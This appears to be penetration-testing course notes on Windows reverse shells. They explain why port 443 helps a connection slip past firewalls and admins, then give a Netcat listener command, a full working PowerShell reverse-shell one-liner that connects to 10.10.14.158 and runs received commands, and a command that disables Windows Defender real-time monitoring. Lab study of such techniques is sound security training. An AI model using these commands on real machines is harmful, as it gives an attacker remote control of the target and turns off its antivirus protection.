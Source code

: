 - With a reverse shell, **the attack box will have a listener running, and the target will need to initiate the connection.**
- It is likely that an **admin will overlook outbound connections, giving us a better chance of going undetected.**
- [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) is one fantastic resource that contains a list of different commands, code, and even automated reverse shell generators

# Simple Reverse Shell in Windows
---
- We can start a Netcat listener on our attack box as the target spawns:
	- `sudo nc -lvnp 443`
- We may want to use **common ports like 443 because when we initiate the connection to our listener**, ==**we want to ensure it does not get blocked going outbound through the OS firewall and at the network level.**==
- rare to **see any security team blocking 443 outbound** since many applications and organizations rely on HTTPS
- `What applications and shell languages are hosted on the target?`
	- This is an excellent question to ask any time we are trying to establish a reverse shell.
- On the Windows target, open a command prompt and copy & paste this command:
	- `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
- **Disable AV:**
	  `Set-MpPreference -DisableRealtimeMonitoring $true`